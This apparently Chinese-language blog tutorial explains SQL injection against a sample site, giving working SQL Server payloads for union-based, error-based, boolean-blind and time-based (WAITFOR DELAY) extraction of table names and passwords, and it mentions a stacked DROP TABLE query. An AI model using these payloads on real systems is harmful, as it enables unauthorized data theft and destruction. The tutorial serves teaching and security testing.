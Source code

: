 ```yaml
---
layout: post
title:  "sql 注入"
category: sql
tags: sql read
keywords: sql injection,sql注入
description: sql注入，error-based inject,Union-based injection,boolean-based injection,Time-based injection
---
```

###All your datas are belong to us (if we can break into the query context)###

SQL 注入是怎么成为可能的，简单的说就是打破原有的数据上下文加入一些查询内容。  
现在假设有一个URL包含一个 "id=1" 查询参数，这个参数最后会传到 SQL 查询语句中：  
	Select *　from Widget where ID = 1 
完整的URL连接可以是这样的：
http://widgetshop.com/widget/?id=1  
现在可以改请求的参数，比如给传一个参数 "2",这样都是正常的，但是如果把参数改成 "1 or 1=1"呢  
http://widgetshop.com/widget/?id=1 or 1=1  
到数据库服务器的时候，查询语句可能是这样的:  
	select * from Widget where id = 1 or 1=1  
这告诉我们数据没有经过验证处理(not being sanitised)，期望的是一个Integer的数据类型，但是实际上接收到的值是 "1 or 1=1"
更重要的是这个参数导致sql语句的变更会改变原语句的功能。现在不只是查找一条记录，而是所有的记录。如果是加上一个 "or 1=2"就是没有结果，
通过这两种情况我们就很容易判断这个程序是不是存在潜在的sql注入问题  

sql 注入的精髓就是---用一些不受信任的数据执行查询操作。
如果开发者的代码是这样话：
	query = "select * from Widget where Id = "+ Request.QueryString["Id"];
当然这是需要程序会接收受信任的参数，这里我们里只单纯的谈论SQL注入。

下面探讨一些常用的sql注入的方法：  
####Union query-based injection####
看刚才上面的那个例子，现在URL是这样的:http://widgetshop.com/Widgets/?TypeId=1
在页面上显示的结果如下：
Shiny  
Round  
Fuzzy  
我们期待查询语句类似于这样：  
	select name from Widget where TypeId=1  
我们可能可以添加一些sql到查询数据中(请求参数)，可能是这样子：  
http://widgetshop.com/Widgets/?TypeId=1 union all select name from sysobjects where xtype='u'  
这样的话创建的SQL语句可能就是这样的：  
	select name from Widget where TypeId = 1 union all select name from sysobjects where xtype='u'  
注意，sysobjects 表是有数据库中所有的对象，我使用查询条件 xtype "u",也就是说我们查出所有的用户表(表名)，这意味着页面上会显示(除了原来的信息，还有用户表，这里假设只有二个)  
Shiny
Round
Fuzzy
Widget
User
这就是一个种基于Union查询的注入攻击，一些额外的结果在html页面上显示出来了，现在我们就知道了有一个叫做user的表
现在可以这样做：
http://widgetshop.com/Widgets/?TypeId=1 union all select password from [user]
SQL Server中如果表是以"user"命令，在使用的时候不加[],会有其他的含意。通过上面的语句可以得到结果
Shiny
Round
Fuzzy
P@ssw0rd

UNION All 方法要求是在第一个 sql 语句跟第二个 sql 语句有相同的列数才可以，这也是非常容易处理的，
你只需要使用 "union all select 'a'"然后"union all select 'a','b'"这样一直猜下去就可以了。
可以继续使用这种方法拉回来更多的数据。

####Error-base Injection####
尝试另一种模式,看下面的URL  
http://widgetshop.com/widget/?id=1 or x=1  
注意，这不会是不一个有效的sql语句，除非表中有一个 column 叫 x，否则会抛出一个异常，你会看到下面的信息  
。。。。。。
这是一个 ASP.NET的错误信息，其他的框架也会有类似的信息。
重要的是这些错误信息会将内部的实现给暴露出来，这样就可以确定应用程序会把sql异常给暴露出来。  
然后接下来你就可以这样做：  
http://widgetshop.com/widget/?id=convert(int,(select top 1 name from sysobjects where id=(select top 1 id from (select top 1 id from sysobjects where xtype='u' order by id) sq order by id DESC)))  
然后会返回一个这样的结果在浏览器上  
这样就可以发现在数据库中的一个Widget的表，下面看一下上面的url中：  
convert(int, (
    select top 1 name from sysobjects where id=(
      select top 1 id from (
        select top 1 id from sysobjects where xtype='u' order by id
      ) sq order by id DESC
    )
  )
)
这个语句的目的就是从 sysobjects 表中查出所有用户表。为什么会这样呢  
只要将最里层的 sql 语句的top 1 一直往上面加 top 2， top3，这样再通过第二层的 sql 语句的 desc 排序就可以得到每个一用户表的name  
name   id
test1   1
test3   5
test4   3
test8   4
test9   10
经过最里层sql的排序会是1，3，4，5，10;先取到top1，再到第二层sql通过desc这时候得到id=1的表的name  
如果把最里层的sql改成 top 2，就会得到id为 1，3的两条记录，通过第二层的desc可以得到 id=3的表name。以此类推  
而到最外层的时候 conver(int, "name"),这样将一个字符串转换成int类型，就会在页面将表的名字给暴露出来,(当然，除非你的表名类似于 12，34这样。一般来也不会这样命名表)  
同样通过这样的一种方法也可以得到表中所有的列名，只要将这种方法应用在 syscolumns 表上就可以了  
这种方法只有程序会将错误信息显示在页面上的时候才会有效，如果程序有很好的配置避免了这种错误信息的暴露呢？
下面会说到 "blind" SQL injection
####"blind" SQL injection####
这前说的方法都会依赖程序暴露了内部的细节，将表或者其他的数据信息返回到UI上了。  
接下来看一下另外两种方法：boolean-based 跟 time-based  
####boolean-based injection####
看下面的这个例子  
http://widgetshop.com/widget/?id=1 and 1=2  
显示1=2永远不会为true,app会怎样处理这种情况呢  
1，可能只是抛出一个异常，通常开发者会认为记录是会存在的，因为这样的链接是app自己提供的。  
2，app不会抛出异常也不会显示数据  
不管怎样，app含蓄都告诉了我们没有记录从数据库返回来。现在做以下的尝试  
将访问链接变成这样  
http://widgetshop.com/widget/?id=1 and
(
  select top 1 substring(name, 1, 1) from sysobjects where id=(
    select top 1 id from (
      select top 1 id from sysobjects where xtype='u' order by id
    ) sq order by id desc
  )
) = 'a'

实际上这只是前面获取表名的一种变种，区别只是前面是试图将表名转换成一个int类型，
现在试图去判断表名的第一个字符是不是一个 'a',如果返回的结果跟 "?id=1" 返回的结果是一样的时候，说是就是以这个字符开头的。  
然后再用这种方法去判断第2个字符，当然这是相当的麻烦的，直到你得出了表名。这里有一个小的技巧  
看下面这个:  
(
  select top 1 ascii(lower(substring(name, 1, 1))) from sysobjects where id=(
    select top 1 id from (
      select top 1 id from sysobjects where xtype='u' order by id
    ) sq order by id desc
  )
) > 109  
一个微妙但是重要的区别，不再去判断字符是否相等而是判断在ASCII表中的位置，
这样的可以使用类似二分查找的方法去判断字符的ASCII码，可以减少很重复判断的次数。

###Time-based blind injection###
上面所有说的例子应用程序都是通过html输出信息，(错误信息，对象名，内部数据，显示信息是否与正常信息相同)，要是信息不能显式或隐式的得到呢？  
想像一下通过下面的URL通过攻击  
http://widgetshop.com/Widgets/?OrderBy=Name  
假设会转化成这样的查询：  
SELECT * FROM Widget ORDER BY Name  
显然不能这样直接使用一个order by,常用的一种方法是使用一个分号然后再加一条sql语句，像下面这样：  
http://widgetshop.com/Widgets/?OrderBy=Name;SELECT DB_NAME()  
除了可以得到数据库的名字，这几乎是没有危害的，一些更有危害性的做法像"DROP TABLE Widget".当然这需要web程序连接帐号需要有这样的权限。
一旦你可以这查询的时候问题就出来了。  
现在需要找另一种方法来做类似前面 boolean-based 的测试，使用WAITFOR DELAY 语法。
试一下这个：  
Name;
IF(EXISTS(
  select top 1 * from sysobjects where id=(
    select top 1 id from (
      select top 1 id from sysobjects where xtype='u' order by id
    ) sq order by id desc
  ) and ascii(lower(substring(name, 1, 1))) > 109
))  
WAITFOR DELAY '0:0:5'  
如果满足这条件的话，这个查询语句会延迟5秒钟，通过这样响应的时间间隔也可类似于boolean-based的方法得出表名，只不过会花上更久一点的时间。  
















